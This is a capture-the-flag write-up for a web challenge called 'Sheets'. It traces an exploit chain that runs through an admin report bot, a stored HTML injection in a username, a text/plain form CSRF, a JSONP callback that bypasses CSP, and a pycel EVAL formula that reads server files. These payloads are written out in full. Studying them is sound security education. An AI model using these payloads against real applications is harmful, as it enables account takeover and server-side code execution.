





# Sheets

## Metadata

| Field | Value |
| --- | --- |
| Category | `web` |
| Difficulty | Hard |
| Points | 365 |
| Solves | 27 |
| First Blood | witty1337 |

## Challenge Description

```text
Sheets. Sheets of paper, sheets of glass and metal sheets. And let's not speak of bed sheets and cursed spreadsheets! My point is, there are awful sheets everywhere and I am sick of 'em sheets... Sheet! Are you good enough with handling sheets? Show me what you got.
```

## Artifacts

The provided archive is `public.zip`. The password is `infected.`:

```bash
7z x -pinfected. -oextracted public.zip -y
```

Important extracted files:

```text
extracted/Dockerfile
extracted/run.sh
extracted/src/main.py
extracted/src/api.py
extracted/src/bot.py
extracted/src/utils.py
extracted/src/data/clean.xlsx
extracted/src/frontend/src/App.svelte
extracted/src/frontend/src/components/ProfileSettingsPage.svelte
extracted/src/frontend/src/components/SheetPage.svelte
solve_sheets.py
test.py
assets/*.png
```

For local validation I used the shipped Docker environment instead of changing
the flag path. This matters because `run.sh` creates a randomized
`/app/flag*.txt` file inside the container, which is the same shape the remote
instance uses.

## Recon

I started with a standard web recon flow: identify the application entry points,
map backend routes, map frontend routes, open the app in a browser, and only
then decide which paths looked exploitable. The archive layout already suggested
a FastAPI backend, a Svelte frontend and a Playwright bot:

```text
extracted/Dockerfile
extracted/run.sh
extracted/src/main.py
extracted/src/api.py
extracted/src/bot.py
extracted/src/frontend/src/App.svelte
extracted/src/frontend/src/components/ProfileSettingsPage.svelte
extracted/src/frontend/src/components/SheetPage.svelte
extracted/src/data/clean.xlsx
```

The Dockerfile shows the intended runtime: the app runs in `/app`, Chromium is
installed for Playwright, and the service listens on port `5000`.

```dockerfile
# extracted/Dockerfile
WORKDIR /app
RUN uv sync --locked; \
    uv run playwright install --with-deps chromium
COPY ./run.sh .
COPY src/ ./src/
EXPOSE 5000
ENTRYPOINT ["/app/run.sh"]
```

The `run.sh` file revealed where the real flag lives:

```sh
# extracted/run.sh
echo $FLAG > /app/flag$(head -c 16 /dev/urandom | od -An -tx1 | tr -d ' ').txt
unset FLAG
uv run -- fastapi run --host 0.0.0.0 --port 5000 src/main.py
```

That mattered later: reading `os.environ["FLAG"]` is not enough, because the
environment variable is removed. The final server-side primitive must read a
file matching `/app/flag*.txt`.

### Initial Route Map

The first useful route map came from `extracted/src/main.py`. It has:

- `/`, which serves the SPA entrypoint.
- `/report`, which passes a user-controlled URL to `visit(url)`.
- `app.include_router(apiRouter)`, which mounts the `/api` routes.
- a static mount for the frontend build.
- a CSP middleware on frontend responses.

```python
response.headers["Content-Security-Policy"] = (
    "default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' 'unsafe-inline';"
)

@app.get("/")
def index():
    return FileResponse(frontend_path / "index.html")

@app.get("/report")
def report(url: str):
    r = visit(url)
    return r

app.include_router(apiRouter)
app.mount("/", StaticFiles(directory=frontend_path), name="static")
```

The API router in `extracted/src/api.py` is small enough to map manually:

```text
GET  /api/whoami          returns current session, creates guest if needed
GET  /api/whoami/jsonp    JSONP version of whoami
POST /api/whoami          updates username
GET  /api/key             returns the API write key, admin only
GET  /api/sheets          reads the spreadsheet
GET  /api/sheets/reset    resets the spreadsheet
POST /api/sheets          writes the spreadsheet, requires X-API-Key
GET  /api/logout          deletes the session cookie
```

The frontend routes are defined in `extracted/src/frontend/src/App.svelte`:

```svelte
const routes: any = {
  "/": IndexPage,
  "/sheets": SheetPage,
  "/settings": ProfileSettingsPage,
};
```

The browser confirmed the same three views:







At this point I had no exploit. The route map raised three concrete questions:

1. What does `/report` do with a submitted URL?
2. Why is `/api/key` separate from normal session state?
3. Which frontend route renders attacker-controlled data?

### First HTTP Checks

I then made small requests to understand default behavior before reading too
much into the source:

```bash
curl -i http://127.0.0.1:5000/
curl -i http://127.0.0.1:5000/api/whoami
curl -i http://127.0.0.1:5000/api/key
curl -i 'http://127.0.0.1:5000/api/whoami/jsonp?callback=console.log'
```

Representative output:

```text
content-security-policy: default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' 'unsafe-inline';

{"username":"guest","role":"guest"}

HTTP/1.1 401 Unauthorized
{"detail":"Unauthorized"}

console.log({"username":"guest","role":"guest"})
```

Those responses gave the first practical observations:

- `/` is a frontend page with CSP.
- `/api/whoami` creates a guest session automatically.
- `/api/key` is the first sensitive target, but a guest gets `401`.
- `/api/whoami/jsonp` returns javascript-shaped text with attacker-controlled
  `callback`, which is unusual.

The first simple idea was "just request `/api/key`". That failed as guest, so I
tried the next smallest question: if the report bot visits `/api/key`, does the
server return the admin-only response to me?

```bash
curl -i 'http://127.0.0.1:5000/report?url=http://127.0.0.1:5000/api/key'
```

Representative response:

```text
HTTP/1.1 200 OK
{"success":"visited: http://127.0.0.1:5000/api/key"}
```

That did not leak the key. It only proved that `/report` drives a browser and
returns a status message. This failure was useful because it separated two
things:

- the bot probably can open admin-only pages;
- I still need javascript running on the internal origin to read anything from
  those pages.

That is why the next thing to understand was whether `/report` gives a real
admin browser context, not just a backend HTTP request.

### Report Bot

`extracted/src/bot.py` shows that `/report` is an admin browser primitive. The
bot creates a Playwright context, injects an admin cookie for the internal
origin, then visits the supplied URL:

```python
ctx.add_cookies(
    [
        {
            "url": "http://127.0.0.1:5000/",
            "name": "token",
            "value": admin_session_id,
        }
    ]
)

page.goto(url)
page.wait_for_timeout(10_000)
```

So `/report` is not just a generic URL fetcher. It is a real browser with an
admin cookie, scoped to the internal origin `http://127.0.0.1:5000/`.

I tested that the local bot was functional with a harmless `data:` page:

```python
import requests, urllib.parse

u="data:text/html,"+urllib.parse.quote("<h1>bot smoke</h1>")
r=requests.get("http://127.0.0.1:5000/report", params={"url":u}, timeout=25)

print(r.status_code)
print(r.text[:200])
```

```text
200
{"success":"visited: data:text/html,%3Ch1%3Ebot%20smoke%3C/h1%3E"}
```

From backend log:
```text
sheets-1  | [bot] browser initialized
sheets-1  | [*] visiting data:text/html,%3Ch1%3Ebot%20smoke%3C/h1%3E
sheets-1  | [+] visited data:text/html,%3Ch1%3Ebot%20smoke%3C/h1%3E
sheets-1  |       INFO   172.20.0.1:36312 - "GET
sheets-1  |              /report?url=data%3Atext%2Fhtml%2C%253Ch1%253Ebot%2520smoke%253C%2Fh
sheets-1  |              1%253E HTTP/1.1" 200
```

This made `/report` the first real starting point. However, a `data:` page
visited by the bot still cannot directly read `http://127.0.0.1:5000/api/key`;
the `data:` document has a different origin.
So the next question became: can I make javascript execute on the internal
origin `http://127.0.0.1:5000`?

### Frontend Sinks

The two frontend routes that touched interesting data were `/settings` and
`/sheets`.

In `extracted/src/frontend/src/components/ProfileSettingsPage.svelte`, the page
loads `/api/whoami`, then renders the result into an HTML string:

```svelte
let r = await fetch("/api/whoami").then((r) => r.json());
appState.whoami = r;

{@html `<textarea disabled rows="5" style="width:450px;resize:none;">${
  appState.whoami
    ? JSON.stringify(appState.whoami, undefined, 2).replace("<", "")
    : "Loading..."
}
</textarea>`}
```

In `extracted/src/frontend/src/components/SheetPage.svelte`, the sheets page
can read `/api/sheets`, but saving uses an API key:

```ts
// extracted/src/frontend/src/components/SheetPage.svelte:14
let data = await fetch("/api/sheets").then((r) => r.json());

// extracted/src/frontend/src/components/SheetPage.svelte:40
let data = await fetch("/api/sheets", {
  method: "POST",
  headers: {
    "Content-Type": "application/json",
    "X-API-Key": appState.key,
  },
});

// extracted/src/frontend/src/components/SheetPage.svelte:60
let r: { key: string } = await fetch("/api/key").then((r) => r.json());
```

This connected the route map into a likely chain, but still only as a working
hypothesis:

```text
/report admin browser -> somehow obtain /api/key -> write something dangerous to /api/sheets
```

The missing piece was same-origin javascript execution on `127.0.0.1:5000`.

## Vulnerability

The final exploit is not a single visible bug. It is a chain of smaller
trust-boundary mistakes. The important part of the solve was testing each simple
idea, seeing why it was insufficient, and using that failure to choose the next
place to inspect.

### 1. Stored HTML Injection In Settings

The first candidate sink came from `/settings`, because it renders data returned
by `/api/whoami`. The relevant code is in
`extracted/src/frontend/src/components/ProfileSettingsPage.svelte`:

```svelte
{@html `<textarea disabled rows="5" style="width:450px;resize:none;">${
  appState.whoami
    ? JSON.stringify(appState.whoami, undefined, 2).replace("<", "")
    : "Loading..."
}
</textarea>`}
```

I did not treat this as an instant XSS. The code has a visible attempted filter:
`.replace("<", "")`. The question was whether that filter was enough for the
HTML context.

The reasoning was:

1. `{@html ...}` injects raw HTML.
2. The rendered JSON includes `username`.
3. `username` comes from `/api/whoami`.
4. `.replace("<", "")` removes only the first `<`.
5. The value is inside a `<textarea>`, so a useful payload must close the
   textarea before adding new HTML.

So a username starting with `<<` becomes dangerous after the first `<` is
removed:

```text
input:  <</textarea><div>proof</div>
after:   </textarea><div>proof</div>
```

I validated this with a harmless visual proof, not with javascript yet:



The injected proof div rendered outside the textarea, confirming that the
profile field could break out of the intended text context.

This gave an HTML injection sink on `/settings`, but not yet the final exploit.
The next natural hypothesis was: can the admin bot store this payload in its own
profile and then trigger it?

### 2. Admin Cannot Be Used Directly For Username Update

That direct idea fails. In `extracted/src/api.py`, the username update
endpoint blocks admin users:

```python
@router.post("/whoami")
async def update_username(user: MustLogin, request: Request) -> SessionData:
    if user.role == "admin":
        raise HTTPException(status_code=403, detail="Forbidden")
```

This killed the simple idea of "make the admin bot store the XSS in its own
profile".

The next route to inspect was `/api/logout`. In `extracted/src/api.py`,
logout deletes the session cookie:

```python
@router.get("/logout")
def logout(user: MustLogin):
    response = RedirectResponse("/")
    response.delete_cookie("token")
    return response
```

The session dependency creates a new guest session whenever the token is missing
or invalid (`extracted/src/api.py`):

```python
if session_id in sessions:
    return sessions[session_id]

session_id = generate_session_id()
sessions[session_id] = SessionData()
response.set_cookie("token", session_id, max_age=3600, samesite="strict")
```

So the plan changed from "use the admin profile" to:

```text
admin bot opens attacker page
attacker page opens /api/logout
the next request creates a fresh guest session
attacker stores the HTML injection as that guest's username
```

This solves the admin update restriction, but it creates a new problem: the
first-stage page is a `data:` URL, and it cannot use `fetch()` to write JSON to
`http://127.0.0.1:5000/api/whoami` because of browser cross-origin rules.

### 3. JSON Body Parsing Accepts `text/plain` Form Posts

The next useful detail is in the same username endpoint. It does not check
`Content-Type`; it simply parses the raw request body as JSON
(`extracted/src/api.py`):

```python
data = json.loads(await request.body())
```

That makes an old browser trick useful. A normal HTML form with
`enctype="text/plain"` can produce a body that is still valid JSON:

```html
<form method="POST" enctype="text/plain" action="http://127.0.0.1:5000/api/whoami">
  <input name='{"new_username":"PAYLOAD","x":"' value='"}'>
</form>
```

The submitted body is equivalent to:

```json
{"new_username":"PAYLOAD","x":""}
```

The local check for this idea was intentionally small: keep the request as
`text/plain`, but make the raw body valid JSON. If the server accepts it, the
problem is not Svelte anymore; it is the backend accepting a browser-formable
cross-origin request body as JSON.

```bash
curl -i -c cookies.txt -b cookies.txt \
  -X POST \
  -H 'Content-Type: text/plain' \
  --data '{"new_username":"plain-form-proof"}' \
  http://127.0.0.1:5000/api/whoami
```

Representative response:

```text
HTTP/1.1 200 OK
{"username":"plain-form-proof","role":"guest"}
```

This matters because the first-stage page is a `data:` URL opened by `/report`.
It can submit a cross-origin form to `127.0.0.1:5000`, even though it cannot
read the response. That gives a browser-native way to store the malicious
username after the bot logs out into a guest session.

At this point the chain could store HTML and load `/settings` as the guest. But
HTML injection still was not enough, because I needed javascript execution on
the internal origin to read the admin `/api/key` window.

### 4. JSONP Bypasses The Practical Script Restriction

The CSP from `extracted/src/main.py` is:

```text
default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' 'unsafe-inline';
```

The injected HTML can add markup, but inline javascript in a normal app page is
not the clean path because the CSP does not include `script-src 'unsafe-inline'`.
Also, scripts inserted through raw HTML/innerHTML-style rendering are not a
reliable execution primitive.

This is why the earlier `/api/whoami/jsonp` route mattered. In
`extracted/src/api.py`, the server returns the callback parameter directly as
javascript:

```python
@router.get("/whoami/jsonp")
def whoami_jsonp(user: MustLogin, callback: str = "alert"):
    return PlainTextResponse(callback + "(" + user.model_dump_json() + ")")
```

Because `callback` is attacker-controlled, this can become a same-origin script:

```html
<script src="/api/whoami/jsonp?callback=ATTACK_JS//"></script>
```

The quick check for this idea was to make the callback syntactically close over
the server-appended JSON:

```bash
curl -i 'http://127.0.0.1:5000/api/whoami/jsonp?callback=alert(1)//'
```

Representative response:

```text
HTTP/1.1 200 OK
alert(1)//({"username":"guest","role":"guest"})
```

The trailing `//` comments out the JSON argument appended by the server. In the
final payload, `alert(1)` becomes an async javascript function that reads the
named `/api/key` window and writes the spreadsheet.

The exploit places this script inside an injected `iframe srcdoc`, so the raw
HTML injection becomes javascript execution while still loading the script from
`'self'`.

That gives same-origin javascript on `http://127.0.0.1:5000`. Now it can solve
the earlier `data:` origin problem by reading a named window that was loaded
with `/api/key` while the admin cookie was still active.

### 5. Spreadsheet Formula Evaluation Reaches Python Execution

The last question was what to do with the stolen key. The frontend already
showed that `X-API-Key` is used only for saving sheet changes. The backend
confirms the sink in `extracted/src/api.py:143`: `POST /api/sheets` requires
the API key, writes attacker-controlled rows, and evaluates the spreadsheet:

```python
def post_sheets(user: MustLogin, api_key: Annotated[str, Depends(APIKey)], data: TableData):
    sheet_header = data.header
    rows = data.rows
    excel.set_value("Sheet1!A2:F16", rows)
    sheet_rows = excel.evaluate("Sheet1!A2:F16")
```

This turned the problem into a spreadsheet-formula question. I did not start by
reading the flag; first I checked whether formulas inserted into the sheet could
reach Python evaluation at all. A minimal local `pycel` probe was enough:

```python
from openpyxl import Workbook
from pycel import ExcelCompiler
from pathlib import Path

p = Path("/tmp/sheets_eval_probe.xlsx")
wb = Workbook()
ws = wb.active
ws.title = "Sheet1"
ws["A1"] = '=EVAL("1+2")'
wb.save(p)

excel = ExcelCompiler(filename=str(p))
print(excel.evaluate("Sheet1!A1"))
```

```text
3
```

Then I tested the same primitive against a harmless local file:

```text
=EVAL("__import__('pathlib').Path('/tmp/sheets_eval_probe_flag.txt').read_text()")
```

```text
flag{pycel_eval_probe}
```

That made the final formula a path change rather than a new technique. Because
`run.sh` places the real flag in `/app/flag*.txt`, the exploit reads that file:

```text
=EVAL("__import__('pathlib').Path(__import__('glob').glob('/app/flag*.txt')[0]).read_text()")
```

## Exploitation

The complete exploit chain is:

1. Send `/report?url=data:text/html,...` to make the admin bot visit our page.
2. The first-stage `data:` page opens `http://127.0.0.1:5000/api/key` in a named
   window called `key`.
3. That top-level navigation uses the bot's admin cookie, so the named window
   contains JSON like `{"key":"..."}`.
4. The first-stage page opens `/api/logout`, deleting the admin cookie.
5. The first-stage page submits a `text/plain` form to `/api/whoami`, creating a
   guest session whose `username` contains the stored HTML injection.
6. The first-stage page navigates the guest window to `/#/settings`.
7. The settings page renders `username` through `{@html ...}`.
8. The injected iframe loads `/api/whoami/jsonp?callback=...` as a same-origin
   script.
9. The JSONP javascript reopens the named `key` window and reads its body.
10. The javascript extracts `api_write_key`.
11. The javascript resets the sheet and posts a formula row to `/api/sheets`
    with `X-API-Key`.
12. `pycel` evaluates the `EVAL(...)` formula and reads `/app/flag*.txt`.
13. The Python solver polls `/api/sheets` until the flag appears.

The important browser detail is the named window. The first `data:` page cannot
read `http://127.0.0.1:5000/api/key` directly because of same-origin policy.
But after the stored XSS executes on `http://127.0.0.1:5000`, it can recover the
same named window:

```js
open(BASE + '/api/key', 'key');
...
let w = open('', 'key');
let t = w && w.document && w.document.body && w.document.body.innerText;
let key = JSON.parse(t).key;
```

## Technical Details

The exploit has to chain client-side and server-side behavior:

- `/report` gives code execution in an admin browser, not server code execution.
- The admin cookie is scoped to `http://127.0.0.1:5000/`, so the payload must use
  that internal origin as `bot_base`.
- `/api/key` is admin-only, but a top-level bot navigation can load it.
- Direct cross-origin reads from the initial `data:` URL are blocked.
- Logging out creates a new guest session because the next authenticated API
  call without a valid token receives a fresh guest cookie.
- Stored HTML injection in the guest profile gives same-origin script execution
  after the settings page loads.
- JSONP turns attacker-controlled `callback` into executable JavaScript from
  the allowed `'self'` script origin.
- The stolen API key unlocks `/api/sheets`.
- `pycel` evaluates the malicious spreadsheet formula on the server.

The generated formula uses the same path created by the challenge entrypoint:

```python
'=EVAL("__import__(\'pathlib\').Path(__import__(\'glob\').glob(\'/app/flag*.txt\')[0]).read_text()")'
```

## Exploit Artifact

The exploit is [solve_sheets.py](solve_sheets.py). Key parts:

```text
build_report_url()  builds the self-contained data: URL for /report
xss_js              runs inside JSONP after the stored HTML injection
poll_flag()         polls /api/sheets until a flag-like string appears
--target            external URL of the challenge
--bot-base          internal origin where the bot has its admin cookie
--insecure          disables TLS validation when the challenge cert is expired
```

The helper [test.py](test.py) is only a local smoke test for `/report`. It does
not exploit the challenge; it confirms that the Playwright bot accepts and visits
a harmless `data:` URL before running the full solver.

Print only the generated report URL:

```bash
python solve_sheets.py --print-url
```

## Validation

Local validation:

```bash
cd extracted
docker compose up --build
```

Optional bot smoke test, from the challenge directory while Docker is running:

```bash
python test.py

200
{"success":"visited: data:text/html,%3Ch1%3Ebot%20smoke%3C/h1%3E"}
```

Full local exploit, from the challenge directory:

```bash
python solve_sheets.py --target http://127.0.0.1:5000

[*] Enviando payload para http://127.0.0.1:5000/report
[*] /report respondeu HTTP 200: {"success":"visited: data:text/html;charset=utf-8,...
[*] Procurando a flag em /api/sheets ...
[+] FLAG: flag{fake_flag}
```

Backend EVAL log:

```text
sheets-1  | Eval: sqrt(sumproduct((_R_("Sheet1!A6:D6") - average(_R_("Sheet1!A6:D6"))) ** 2) / count(_R_("Sheet1!A6:D6")))
sheets-1  | Values: flag{fake_flag}
```

After the local exploit, `/api/sheets` contained the calculated flag value in
row 6:

```text
["flag{fake_flag}\n",2,3,4,3.0,"#VALUE!"]
```

From the frontend page:



Remote validation:

```bash
python solve_sheets.py --target https://784d567131fc36e2.chal.ctf.ae --insecure

[*] Enviando payload para https://784d567131fc36e2.chal.ctf.ae/report
[*] /report respondeu HTTP 200: {"success":"visited: data:text/html;charset=utf-8,...
[*] Procurando a flag em /api/sheets ...
[+] FLAG: flag{ebea46cdd79b8c1c}
```

`--insecure` was needed because the remote certificate was expired during
validation. The application itself was still reachable.

## References

- <https://svelte.dev/docs/svelte/@html>
- <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src>
- <https://portswigger.net/web-security/cross-site-scripting/contexts>
- <https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions>
- <https://owasp.org/www-community/attacks/xss/>
- <https://github.com/dgorissen/pycel>

## Flag

```text
flag{ebea46cdd79b8c1c}
```
